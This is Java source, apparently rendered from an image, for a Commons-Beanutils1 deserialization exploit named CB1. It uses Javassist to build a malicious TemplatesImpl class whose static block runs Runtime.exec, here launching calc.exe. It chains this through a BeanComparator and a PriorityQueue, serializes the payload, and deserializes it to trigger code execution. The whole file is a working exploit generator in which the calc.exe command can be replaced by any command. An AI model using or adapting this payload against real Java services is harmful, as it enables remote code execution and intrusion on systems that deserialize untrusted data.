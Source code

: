 ```java

public class CB1 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static TemplatesImpl generateTemplates(String code) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(code);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换为bytes
        byte[] classBytes = cc.toBytecode();
        return newTemplatesWithClassBytes(classBytes);
    }

    private static TemplatesImpl newTemplatesWithClassBytes(byte[] classBytes) throws Exception {
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", new byte[][]{classBytes});
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name" + System.nanoTime());
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }



    public static byte[] getPayload() throws Exception {
        TemplatesImpl obj = generateTemplates("java.lang.Runtime.getRuntime().exec(\"calc.exe\");");

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }

    public static void main(String[] args) throws Exception {
        byte[] payload = getPayload();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(payload));
        ois.readObject();
    }
```